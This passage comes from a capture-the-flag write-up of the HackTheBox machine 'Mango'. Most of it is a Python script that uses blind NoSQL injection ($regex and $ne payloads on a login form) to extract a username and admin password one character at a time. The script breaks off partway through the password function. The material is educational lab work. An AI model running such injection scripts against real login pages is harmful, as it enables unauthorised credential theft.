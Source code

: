 With the same logic in mind, we can put it to extract the admin password

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2007:41:38.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# NOSQL User and Passwod Exfiltrate - Mango HackTheBox
# Date: 13/09/21

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def userExtract(rhost):
    url = "http://%s" %rhost
    global username
    username = ""
    password = ""
    list = string.ascii_letters
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = {
                "username[$regex]": "^"+username+c,
                #"username[$regex]": "^(?!admin)"+username+c,
                "password[$ne]": password
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {username+c}")
                username += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Username Fouuuund!! : %s [+]" %username)

# Function to extract the password from the user
def passExtract(rhost,username):
    url = "http://%s" %rhost
    password = ""
    list = string.printable
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            # We skip characters that will be interpreted as regex
            if c in ['*', '+', '.', '?', '|', '$']:
                iterator = iterator + 1
                continue
            payload = {
                "username": username,
                "password[$regex]": "^"+password+c
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {password+c}")
                password += c
                iterator = 0
```
